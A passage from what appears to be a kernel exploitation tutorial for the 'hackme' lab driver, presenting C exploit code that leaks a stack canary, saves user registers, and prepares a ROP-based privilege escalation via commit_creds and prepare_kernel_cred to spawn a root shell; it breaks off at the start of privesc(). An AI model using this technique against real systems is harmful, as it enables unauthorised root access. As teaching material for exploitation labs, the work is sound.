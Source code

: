 Now we can put everything together. The following code is the full
exploit for a kernel without any mitigations except stack canaries.

{% highlight C %}
#include <fcntl.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *VULN_DRV = "/dev/hackme";

int64_t global_fd = 0;
uint64_t cookie = 0;
uint64_t cookie_off = 16;

uint64_t user_cs, user_ss, user_rflags, user_sp;     // for storing the registers
uint64_t prepare_kernel_cred = 0xffffffff814c67f0;   // the offset from /proc/kallsyms
uint64_t commit_creds = 0xffffffff814c6410;

void open_dev(){
    global_fd = open(VULN_DRV, O_RDWR);
    if (global_fd < 0) {
        printf("[-] failed to open %s\n", VULN_DRV);
        exit(-1);
    } else {
        printf("[+] successfully opened %s\n", VULN_DRV);
    }
}

void leak_cookie() {
    uint8_t sz = 40;
    uint64_t leak[sz];
    printf("[*] trying to leak up to %ld bytes memory\n", sizeof(leak));
    uint64_t data = read(global_fd, leak, sizeof(leak));
    cookie = leak[cookie_off];
    printf("[+] leaked cookie 0x%lx at offset %d \n", cookie, cookie_off);
}

void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}

void payload(){
    uid_t uid = getuid();
    if (uid == 0) {
        printf("[+] we are root (uid = %d)\n", uid);
    } else {
        printf("[!] we are not root (uid: %d)\n", uid);
        exit(-1);
    }
    execl("/bin/sh", "sh", NULL);
}

uint64_t user_rip = (uint64_t) payload;     // the last part of our ROP chain

void privesc(){